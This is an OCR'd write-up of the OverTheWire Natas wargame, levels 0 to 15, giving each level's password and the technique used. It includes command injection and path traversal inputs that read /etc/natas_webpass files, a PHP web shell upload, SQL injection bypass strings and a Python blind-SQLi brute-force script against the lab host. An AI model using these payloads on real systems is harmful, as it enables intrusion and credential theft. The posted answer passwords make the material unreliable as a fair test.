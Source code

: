 ﻿**OVERTHEWIRE:NATAS**
**LEVEL 0 -> Level 15 Writeups**
**https://overthewire.org/wargames/natas/**

**Natas-0**
\*Found the password for natas1 in the source page.
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
**Natas-1**
\*Found the password by accessing the page source from developer tools in chrome.
<!--The password for natas2 is h4ubbcXrWqs To7GGnnUMLppXb0ogfBZ7-->

**Natas-2**
\*Got the password in users.txt file which is present inside the files directory of the website 
Password:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

**Natas-3**
\*The hidden directory was identified by using /robots.txt.
Password:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

**Natas-4:**
\*Changed the default referrer by using the referrer controller.
Password:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

**Natas-5**
\*Login credentials were saved in browsers as cookies so changed the cookie and got the access.
Password:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

**Natas-6:**

\*Checked the php code and found the secret code by traversing by adding includes/secret.inc
Secret:FOEIUWGHFEEUHOFUOIU
Password:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

**Natas-7**
\* Traversed through the /etc files by: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas\_webpass/natas8
Password:a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

**Natas-8**

\*Decoded the encoded secret by using this function:
function decodeSecret($encoded) 
{ return base64\_decode(strrev(hex2bin($encoded)));
}
PasswordSda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

**Natas-9**

\*The vulnerability here there is passthru the key I entered  ; cat /etc/natas\_webpass/natas10 # to access the file and display the password.

Password:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

**Natas-10**
Here there is a filter applied so I used . /etc/natas\_webpass/natas11 # here .\* searches for the files that have the path mentioned.
Password:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

**Natas-11**

\*After going through the source code we need to set the showpass to yes in order to view the pass.
\*XOR encrypt has a key by which it encrypts so to know the key I used a online code which I got while surfing google
\*Changed the cookie to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Password:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

**Natas-12**

\*Created a .php file with the following command in it 
<?php echo exec("cat /etc/natas\_webpass/natas14"); ?>
Used burp suite and changed the file that opened from .jpg to .php and accessed the natas14 file for the pass
Password:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

**Natas-13**
\*Learned that the website identifies the jpg by the first four bits of hexadecimal code.
\*Used hexeditor to change the first 4 bytes and then uploaded the file.
\*Intercepted the upload using burpsuite and then changed the input to php.
Password:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

**Natas-14:**

\*Learnt about SQL injection and then accessed it using 
username=1" OR “TEST” = “TEST”&password=”1" OR “TEST” = “TEST
which makes it true and shows the password.

**Natas-15:**

\*From source code we can know that the pass is stored in users relation which has username and password as columns.
\*So used SQL injection by running an py code.

—---------------—-------------------------------------------------------------------------------------

#!/usr/bin/env python
\# -\* coding: utf-8 --


import requests
 import re
 from string import ascii\_lowercase, ascii\_uppercase, digits
characters = ascii\_lowercase + ascii\_uppercase + digits
print(characters)

username = 'natas15'
password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url = 'http://natas15.natas.labs.overthewire.org/'
session = requests.Session()
seen\_password = list()

while True:
     for ch in characters:
        print("trying with pass", "".join(seen\_password) + ch)
        response = session.post(url, data={"username": 'natas16" AND BINARY password LIKE \'' + "".join(seen\_password) + ch + '%\' #'}, auth=(username, password))
        content = response.text
        if 'user exists' in content:
            seen\_password.append(ch)
              break


—------------------------------------------------------------------------------------------------------------

Password:RD7iZrd5gATjj9PkPEuaOlfEjHqj32V

